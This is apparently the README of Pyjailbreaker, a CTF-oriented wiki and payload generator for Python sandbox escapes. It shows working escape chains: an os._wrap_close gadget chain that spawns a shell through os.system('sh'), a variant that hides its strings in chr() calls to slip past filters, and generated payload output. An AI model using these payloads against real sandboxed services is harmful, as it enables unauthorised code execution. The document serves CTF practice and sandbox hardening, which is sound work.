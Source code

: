 # Pyjailbreaker
Python sandboxes, also known as pyjails in the CTF community, are pieces of code or libraries that runs arbitrary Python code with restricted access to certain resources based on rules and heuristics, commonly used to provide limited scripting functionality to unprivileged users.
With the nature of Python being exceedingly dynamic, there are countless ways to perform any desired functionality - with some potentially unaccounted for by the sandbox authors.

To better defend against this, a centralized knowledge base for all known techniques that is easy to test against was envisioned - and thus Pyjailbreaker was born.

Pyjailbreaker aims to be:
 - a comprehensive, human-readable wiki for Python sandbox escape techniques
 - a payload generator toolchain that automatically utilizes the components listed in said wiki

## Contributing
The most important piece of the repo is the [gadgets](jailbreak/gadgets) submodule! This repo ceases to be useful if not enough gadgets have been documented, both as a wiki and as a payload generator.

**If you know of any way to perform a given functionality in Python that is yet to be documented, no matter if it seems useful or not, please format it into a gadget according to the [specifications](jailbreak/gadgets/README.md) and open a PR!** As long as they conform to the specifications, is novel to the repo, and performs the intended functionality, we will accept it.

Please feel free to open PRs for other aspects of the repo too, including suggestions to enhance the specifications - but a discussion will usually have to be made first before they are merged to preserve the stability and readability of the repo.

## Structure
### Background
Most pyjail payloads can be split into the following components: parts performing a specific functionality that are chained together to perform a final functionality (**gadgets**), and transformations run on the gadgets to make them conform to the jail (**converters**).

For example, a payload to get a shell might require the following components: 

> list classes loaded -> get function with namespace that has `sys` in it -> get `sys` -> get `os` -> run `os.system`.

A common example is the `os._wrap_close` chain, widely adapted for many different jails due to its flexibility:
```py
[cls for cls in object.__subclasses__() if 'os._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['os'].system('sh')
```
Which can be broken down into the following snippets of code, aka **gadgets**, to fit the components listed above:
```py
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_os = get_sys.modules['os']
get_os.system('sh')
```

A chain, like the one above, can also be **converted** to avoid certain restrictions. For example, if the jail explicitly bans the use of literal strings / quotation marks, we could convert the above chain into this instead:
```py
[cls for cls in object.__subclasses__() if chr(111) + chr(115) + chr(46) + chr(95) + chr(119) + chr(114) + chr(97) + chr(112) + chr(95) + chr(99) + chr(108) + chr(111) + chr(115) + chr(101) in str(cls)][0].__init__.__globals__[chr(115) + chr(121) + chr(115)].modules[chr(111) + chr(115)].system(chr(115) + chr(104))
```
Which is a simple rewrite of the strings to use `chr` on each of the character's ascii value in the strings. Just like `chr` is a new requirement in the example, converters may require gadgets to perform a functionality - as long as those gadgets also do not violate the restrictions imposed by the jail.

By breaking down pyjail payloads into these components, we can document every payload as manageable, single-purpose chunks - with enough documented payloads, the chunks could be mix-and-matched to form new payloads that could bypass a different set of restrictions than the original payloads could.


### Repository layout
The repository structure can be described with the following components:
 - jailbreak
   - converters
   - gadgets
   - utils

All gadgets will be documented in the [gadgets](jailbreak/gadgets) submodule. Each type of gadgets is in a separate file, and each type has multiple gadgets to choose from - the README details the layout and format the gadgets are expected to be in.

Similarly, all converters will be documented in the [converters](jailbreak/converters) submodule - see the README there for more information. 

The [utils](jailbreak/utils) submodule is there for useful miscellaneous utilities for writing pyjail payloads or for investigating the repo.

In the future, there might be a proper web-based wiki generated from the submodules listed above for easier access and searching - for now the main intended method for looking up the components is via navigating on GitHub.

## Toolchain
The structure above is not only designed for human readability, but also for automatic payload generation: given a set of constraints, it is possible to perform a search on the dependency graphs of the gadgets in order to generate a chain that performs the intended functionality.

This is provided by importing `jailbreak` as a Python module, which will perform the necessary dependency resolution and transformations needed to satisfy the restrictions configured, given that there are gadgets and converters in the repo that satisfies it.

### Usage

The `jailbreak` module can be imported if it is on the Python path, provided that `pip install -r requirements.txt` has been run.

Converters are used automatically in the exploit chain generator as needed, but one can manually import the converters using `from jailbreak.converters.<subdirs> import <converter full name>`, similar to accessing raw gadgets.

Importing a gadget using `from jailbreak import <gadget function name>` will trigger the searcher to perform a traversal with the configured restrictions.

One can configure the restrictions by calling the following function:

```py
import jailbreak
import ast, pickle

jailbreak.config(
    ast=[ast.CALL, ...],                    # a list of ast nodes to be banned
    char='ABCDEF...',                       # a string of all characters to be banned
    platforms=["windows", "mac", "linux"],  # a list of platforms that the gadget should support
    versions=[10, 11, 12],                  # a list of versions that the gadget should support
    pickle=[pickle.REDUCE, ...],            # a list of pickle ops to be banned
    provided=["<gadget name>", ...],        # list of gadgets (gadget file names) that is already provided, including any names of builtins already provided.
    banned=["<gadget full name>", ...],     # list of full gadget names (gadget function names) that should not be used for any reason
    inline=False                            # boolean for whether the returned gadget chain should be inlined or not (default: false)
)

#returns a string object representing the code generated, or throws an error with the closest string object (closest == least restriction violations)
#params (can be empty) are for the last gadget in the gadget chain (aka the one requested by the user), and are python code in string form for flexibility
#NOTE: all params passed are unverified since it is direct user given code and is deemed usable out of the box
chain = jailbreak.<gadget function name>(<param1>, ...)  
```

The restrictions only adds up at the moment - all of the criteria has to be met for the gadget to be deemed usable.

The `inline=True` configuration is intended for direct use as a payload or for further transformations - the generated code is not intended to be human readable. For investigating gadget chains and their interactions, `inline=False` should be used, which preserves the functions and their dependency hierachy.

Outside of the exploit chain generator, if a specific gadget is required either for manual chain creation, inspection, or testing, `from jailbreak.gadgets.<subdirs> import <gadget full name>` could be used instead.

A user is also able to provide their own gadgets through providing their own python function that conforms to the gadget spec via `jailbreak.register_user_gadget(<gadget function object>, <gadget type (aka the directory names in gadgets/, e.g. "python")>)`.

### Example
To generate a similar chain to the one in the [Background](README.md#background) section, one can simply do:
```py
import jailbreak
jailbreak.config(inline=True)   #inlining for saving space in README
print(jailbreak.get_shell("'sh'"))
```
Which will return the following:
```py
get_shell__os_system_cmd = 'sh'
type = [].__class__.__class__
bytes = type((i for i in []).gi_code.co_code)
type = [].__class__.__class__
str = type(bytes().decode())
object = ().__class__.__base__
list_classes = object.__subclasses__()
sys = [c for c in list_classes if 'wrap_close' in str(c)][0].__init__.__globals__['sys']
os = sys.modules['os']
os.system(get_shell__os_system_cmd)
get_shell__os_system_0 = None
get_shell__os_system_0

```
Note that this payload is more complicated than the one given in the [Background](README.md#background) section - it assumes that builtins like `str` is not available in scope by default. But the same components exist in both payloads - and most importantly both gets us a shell at the end.

More advanced usage can be seen in [example.py](example.py).